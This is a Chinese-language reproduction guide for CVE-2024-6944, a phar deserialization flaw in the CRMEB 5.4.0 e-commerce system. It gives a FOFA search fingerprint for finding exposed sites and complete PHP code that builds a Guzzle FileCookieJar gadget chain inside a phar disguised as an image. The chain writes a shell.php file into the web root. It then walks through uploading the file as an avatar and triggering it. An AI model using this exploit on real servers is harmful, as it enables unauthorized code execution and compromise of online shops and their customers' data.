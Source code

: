 # CRMEB电商系统PublicController.php反序列化漏洞(CVE-2024-6944)

钟邦科技CRMEB 5.4.0版本中发现一个关键漏洞。受影响的是PublicController.php文件中的get_image_base64函数。参数文件的操作会导致反序列化。攻击可能远程发起。该漏洞已被公开披露并可能被利用。

## fofa

```javascript
icon_hash="-847565074"
```

## 漏洞复现

生成phar文件并gzip压缩

```php
<?php

namespace GuzzleHttp\Cookie{

    class SetCookie {

        function __construct()
        {
            $this->data['Expires'] = '<?php phpinfo();?>';
            $this->data['Discard'] = 0;
        }
    }

    class CookieJar{
        private $cookies = [];
        private $strictMode;
        function __construct() {
            $this->cookies[] = new SetCookie();
        }
    }

    class FileCookieJar extends CookieJar {
        private $filename;
        private $storeSessionCookies;
        function __construct() {
            parent::__construct();
            $this->filename = "D:/phpstudy/WWW/crmeb/public/shell.php";
            $this->storeSessionCookies = true;
        }
    }
}

namespace{
    $exp = new GuzzleHttp\Cookie\FileCookieJar();

    $phar = new Phar('test.phar');
    $phar -> stopBuffering();
    $phar->setStub("GIF89a"."<?php __HALT_COMPILER(); ?>"); 
    $phar -> addFromString('test.txt','test');
    $phar -> setMetadata($exp);
    $phar -> stopBuffering();
    rename('test.phar','test.jpg');
}

?>
```

gzip压缩文件

```php
gzip test.jpg
```

注册用户上传头像

![image.png](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202410250941110.png)

![image.png](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202410250941888.png)

触发phar反序列化

![image.png](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202410250942476.png)

成功写入

![image.png](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202410250942596.png)



## 漏洞来源

- https://forum.butian.net/article/610